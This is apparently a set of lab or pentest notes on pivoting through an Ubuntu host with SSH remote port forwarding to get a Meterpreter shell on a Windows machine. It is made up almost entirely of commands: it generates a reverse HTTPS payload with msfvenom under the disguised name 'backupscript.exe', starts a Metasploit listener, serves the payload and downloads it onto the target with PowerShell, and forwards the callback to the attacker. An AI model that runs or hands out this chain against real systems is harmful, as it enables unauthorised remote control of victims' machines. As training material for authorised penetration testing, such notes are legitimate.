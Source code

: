 ```yaml
---

### Creating a Windows Payload with msfvenom

**Command:**

```Shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InternalIPofPivotHost> LPORT=8080 -f exe -o backupscript.exe
```

**Explanation:**  
Generates a Meterpreter reverse HTTPS payload targeting pivot host's IP and port 8080.

---
```


### Configuring & Starting the multi/handler

**Command:**

```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

**Explanation:**  
Starts a Metasploit listener to handle incoming reverse shells on port 8000.

---

### Transferring Payload to Pivot Host

```Shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

**Explanation:**  
Securely copies the payload to the Ubuntu pivot host using SCP.

---

### Starting Python3 Webserver on Pivot Host

**Command:**

```Shell
python3 -m http.server 8123
```

**Explanation:**  
Hosts the payload on a local HTTP server for download from the Windows target.

---

### Downloading Payload on the Windows Target

```PowerShell
Invoke-WebRequest -Uri "<http://172.16.5.129:8123/backupscript.exe>" -OutFile "C:\\backupscript.exe"
```

**Explanation:**  
Uses PowerShell to download the payload from the Ubuntu host to the Windows machine.

---

### Using SSH -R (Remote Port Forwarding)

```Shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

**Explanation:**  
Forwards Ubuntu host port 8080 to the attack host’s Metasploit listener on port 8000 via SSH.

---

### Viewing the Logs from the Pivot

**Command:** _(log output example)_

```Plain
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: channel 1: connected to 0.0.0.0 port 8000
```

**Explanation:**  
SSH debug logs showing successful port forwarding from the Windows target to the attack listener.

---

### Meterpreter Session Established

**Command:**

```Plain
meterpreter > shell
```

**Explanation:**  
Confirms successful reverse shell connection through SSH reverse port forwarding via the Ubuntu server.

---